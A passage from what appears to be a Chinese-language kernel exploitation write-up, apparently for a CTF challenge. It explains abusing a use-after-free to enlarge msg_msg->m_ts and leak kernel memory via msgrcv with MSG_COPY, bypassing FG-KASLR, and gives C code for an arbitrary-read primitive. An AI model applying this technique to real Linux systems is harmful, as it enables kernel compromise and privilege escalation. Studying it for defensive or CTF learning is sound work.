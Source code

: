 **消息布局**： **QID #0** 消息队列——橘色部分是第1个消息，堆块大小0x40，可通过 `edit_rule()` 完全控制。 **QID #1**消息队列——第1个消息，堆块大小为0x40，其 `msg_msg-&gt;m_list.prev` 指向消息队列 **QID #1**，`m_list.next`指向第2个消息，占两个`kmalloc-4096`。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01bdf9674c46fb92a7.png)

**泄露内存**：**利用UAF改大 QID #0 队列的消息`msg_msg-&gt;m_ts`，调用`msgrcv()`越界读取** **QID #0** 队列的第1个消息，`m_list.next` （指向下一个消息 `kmalloc-4096`）和 `m_list.prev` （指向**`QID #1`**队列），最后我们还能泄露 [`sysfs_bin_kfops_ro`](https://elixir.bootlin.com/linux/v5.8/source/fs/sysfs/file.c#L226)，由于该符号位于内核的data节，所以不受FG-KASLR保护的影响，所以可以用来计算内核基址。

```
[...]

void *recv_msg(int qid, size_t size)
`{`
    void *memdump = malloc(size);

    if (msgrcv(qid, memdump, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR) == -1)
    `{`
        perror("msgrcv");
        return NULL;
    `}`

    return memdump;
`}`

[...]

uint64_t *arb_read(int idx, uint64_t target, size_t size, int overwrite)
`{`
    struct evil_msg *msg = (struct evil_msg *)malloc(0x100);

    msg-&gt;m_type =  0;
    msg-&gt;m_ts = size;                         // [2] 调用edit_rule()覆盖目标对象的 m_ts 域

    if (overwrite)
    `{`
        msg-&gt;next = target;
        edit_rule(idx, (unsigned char *)msg, OUTBOUND, 0);
    `}`
    else
    `{`
        edit_rule(idx, (unsigned char *)msg, OUTBOUND, 1); // [3]
    `}`

    free(msg);

    return recv_msg(qid[0], size);             // [4] 调用 recv_msg(),也即msgrcv()的包装函数,注意使用 MSG_COPY flag, 就能泄露内存。由于我们破坏了 m_list.next 和 m_list.prev 指针，所以如果不使用 MSG_COPY flag 的话，do_msgrcv() 就会 unlink message，导致出错崩溃。
`}`

[...]

uint64_t *leak = arb_read(0, 0, 0x2000, 0); // [1] 调用 arb_read(), 参数0x2000

[...]
```
